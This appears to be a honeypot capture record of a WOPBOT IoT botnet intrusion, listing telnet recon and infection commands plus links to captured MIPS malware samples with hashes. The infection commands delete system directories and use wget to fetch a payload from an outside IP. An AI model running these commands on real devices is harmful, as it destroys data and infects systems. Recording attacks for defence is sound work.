 ### Recon phase
```
enable
shell
sh
/bin/busybox ZORRO
/bin/busybox wget
cat /proc/mounts && /bin/busybox ZORRO
/bin/busybox cat /bin/sh
```
### Infection phase
```
enable
shell
sh
/bin/busybox rm -rf /var/run/* /dev/* /tmp/* /var/run/* >/dev/null 2>&1; /bin/busybox WOPBOT
/bin/busybox mkdir -p /var/run; /bin/busybox WOPBOT
/bin/busybox cp -f /bin/sh /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox echo -ne '' > /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox chmod 777 /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox wget -O - http://85.118.98.197:61050/cyka/blyat/2.mp > /var/run/oMNUckLhyt && /bin/busybox WOPBOT
```

### Captured samples
[1.mp](https://github.com/stamparm/hontel/raw/master/captured/WOPBOT/1.mp.7z) (ELF 32-bit, MIPS)
MD5: eab8da47ff36cafd2662fd01b6959389

[2.mp](https://github.com/stamparm/hontel/raw/master/captured/WOPBOT/2.mp.7z) (ELF 64-bit, MIPS)
MD5: 4565f96cd8498a7e15ffa99e0d435d11
